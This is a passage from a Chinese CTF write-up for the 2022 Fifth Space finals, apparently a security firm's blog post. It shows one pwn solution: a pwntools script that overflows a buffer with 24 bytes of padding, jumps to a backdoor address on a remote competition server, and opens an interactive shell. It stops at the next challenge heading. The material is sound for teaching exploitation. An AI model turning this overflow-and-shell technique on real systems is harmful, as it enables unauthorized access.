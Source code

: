 ```yaml
---
title: 2022第五空间决赛WriteUp｜pwn、reverse、crypto方向合集
url: https://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247496906&idx=1&sn=779e156280e474fdc4161b184663520e&chksm=fa522174cd25a8628d29f572c076020e46ea9e8be05c35a6a5648033b5469ce4dea54ea91e24&scene=58&subscene=0#rd
source: 山石网科安全技术研究院
date: 2022-10-13
fetch_date: 2025-10-03T19:47:21.297238
---
```


# 2022第五空间决赛WriteUp｜pwn、reverse、crypto方向合集

![cover_image](https://mmbiz.qpic.cn/mmbiz_jpg/Gw8FuwXLJnSyf4jARiaK3kmBymhhT7weSGLWykNFsjiciaKekoRNAdiaqib0YnwdeIibfBYgsqRx0NsVERs6tWQ55TFA/0?wx_fmt=jpeg)

# 2022第五空间决赛WriteUp｜pwn、reverse、crypto方向合集

原创

NEURON

山石网科安全技术研究院

**PWN**

![](https://mmbiz.qpic.cn/mmbiz_jpg/Gw8FuwXLJnTFyibjANBPusict5SjpSML2skvb6MnVBQpBA94SOicbCfMHYn5iaPPrZiaAicn5nr3SFicQrjQhwo089nPA/640?wx_fmt=jpeg)

**1. takeeasy**

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*- #

import os

from pwn import *
context.arch = "amd64"

# context.log_level = "debug"

# sh = process("./pwn")
sh = remote("39.107.243.76",24473)
backdoor = p64(0x40118A)
payload = "a"*24
payload += backdoor
sh.sendline(payload)

sh.interactive()
```

**2. easyfp**
